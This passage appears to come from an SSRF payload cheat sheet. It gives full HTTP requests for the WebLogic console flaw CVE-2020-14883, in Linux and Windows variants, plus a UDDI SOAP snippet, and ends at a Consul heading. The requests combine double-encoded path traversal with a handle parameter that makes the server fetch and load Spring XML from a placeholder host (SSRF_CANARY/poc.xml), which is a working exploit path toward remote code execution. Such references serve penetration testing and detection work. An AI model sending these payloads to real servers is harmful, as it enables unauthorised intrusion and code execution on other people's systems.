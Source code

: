 ```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><env:Envelope xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><env:Header/><env:Body><find_business generic="2.0" xmlns="urn:uddi-org:api_v2"><name>sdf</name></find_business></env:Body></env:Envelope>
```

**SSRF Canary: CVE-2020-14883**

Taken from [here](https://forum.90sec.com/t/topic/1412).

Linux:

```http
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: vulnerablehost:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 117

_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://SSRF_CANARY/poc.xml")
```

Windows:

```http
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: vulnerablehost:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 117

_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://SSRF_CANARY/poc.xml")
```

<div id="consul"></div>

## Hashicorp Consul

**Commonly bound ports: 8500, 8501 (SSL)**
